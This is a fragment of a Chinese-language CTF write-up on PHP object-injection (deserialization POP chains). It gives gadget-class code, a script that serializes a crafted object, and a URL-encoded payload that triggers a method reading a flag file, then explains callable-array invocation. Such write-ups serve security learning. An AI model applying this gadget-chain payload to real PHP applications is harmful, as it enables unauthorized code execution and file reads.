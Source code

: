 ```php

    function __destruct()
    {
        $this->b ? $this->c->sdpc('welcom') : 'welcome!' . $this->c; //给b赋值 ，触发 ___call
    }
}

class Evil
{
    function getflag()
    {
        echo '1';
        file_get_contents('/fl4g');
    }
}

$ca = new A();
$cb = new B();
$cc = new C();

$cc->b = 'sp4c1ous';


echo urlencode(serialize($cc));
```

payload:

```
sdpc=O%3A1%3A%22C%22%3A2%3A%7Bs%3A1%3A%22b%22%3Bs%3A8%3A%22sp4c1ous%22%3Bs%3A4%3A%22%00%2A%00c%22%3BO%3A1%3A%22A%22%3A1%3A%7Bs%3A4%3A%22sdpc%22%3Ba%3A1%3A%7Bs%3A4%3A%22sdpc%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A4%3A%22Evil%22%3A0%3A%7B%7Di%3A1%3Bs%3A7%3A%22getflag%22%3B%7D%7D%7D%7D
```



这里有一个点：

```php
<?php
class Evil
{
    function getflag()
    {
        echo '1';

    }
}
print_r(array(new Evil(),'getflag')());
//输出： 1
```

**`array(new Evil(),'getflag')()`** 

这样子相当于 Evil对象eval调用它的getflag()方法： `eval::getflag()`
